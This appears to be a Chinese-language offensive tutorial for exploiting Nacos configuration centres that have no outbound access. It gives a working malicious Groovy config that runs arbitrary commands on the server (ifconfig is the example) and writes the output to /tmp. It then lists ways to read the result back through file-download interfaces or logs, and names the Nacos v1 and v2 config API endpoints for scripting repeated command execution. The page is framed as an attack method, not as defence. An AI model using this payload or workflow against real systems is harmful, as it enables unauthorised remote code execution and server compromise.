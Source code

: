 ### Nacos 不出网利用方式

**1. 构造恶意 Groovy 配置文件**

与之前的方法类似，我们需要构造一个恶意 Groovy 脚本。这次，我们的目标是让命令执行的结果能够被我们看到

- **Data ID**：任意命名，例如 `internal-shell.groovy`
- **配置格式**：`Groovy`
- **配置内容**：

我们可以将命令执行的结果写入到一个可写的文件中。以下是一个示例，它会执行 `ifconfig` 命令，并将结果写入到 `/tmp/nacos-result.txt` 文件中

```groovy
def process = "ifconfig".execute()
def output = new StringBuilder()
process.consumeProcessOutput(output, output)

def file = new File("/tmp/nacos-result.txt")
file.withWriter('UTF-8') { writer ->
    writer.write(output.toString())
}
```

请将 `ifconfig` 替换为你想要执行的命令，并将 `/tmp/nacos-result.txt` 替换为一个你确定有写入权限的路径

**2. 发布配置并触发**

在 Nacos 控制台中发布这个恶意配置，等待目标应用加载配置并执行。一旦应用加载了该配置，Groovy 脚本就会在服务器上执行，并将命令执行结果写入指定的文件中

**3. 获取命令执行结果**

现在，最关键的问题是如何获取到写入文件的结果。这通常需要依赖于以下两种情况：

- **有文件下载或读取接口**：如果目标服务器的应用存在文件下载功能，并且我们可以控制下载路径，那么我们可以通过这个功能来下载 `/tmp/nacos-result.txt` 文件，从而获取命令执行的结果。
- **通过 Nacos 控制台回显**：在某些情况下，Nacos 的配置加载可能会在应用的日志中打印出结果。如果我们可以访问到应用的日志，那么也可以从中获取信息。但这种方式不够稳定和通用

**4. 自动化命令执行（进阶）**

如果需要进行多次命令执行，每次都修改配置并发布会非常麻烦。我们可以利用 Nacos 的 API 来实现自动化

- **1.0 版本的 API**：
  - **获取配置内容**：`GET /nacos/v1/cs/configs?dataId=<dataId>&group=<group>`
  - **修改配置内容**：`POST /nacos/v1/cs/configs`
- **2.0 版本的 API**：
  - **获取配置内容**：`POST /nacos/v2/cs/configs`
  - **修改配置内容**：`POST /nacos/v2/cs/configs`

我们可以编写一个脚本，循环执行以下操作：

1. **构造 Groovy 脚本**，将要执行的命令写入其中
2. **通过 API 更新配置**
3. **通过 API 获取配置**，并尝试从中提取命令执行结果（如果结果被写入配置中）
4. **通过文件下载接口**或其他方式获取结果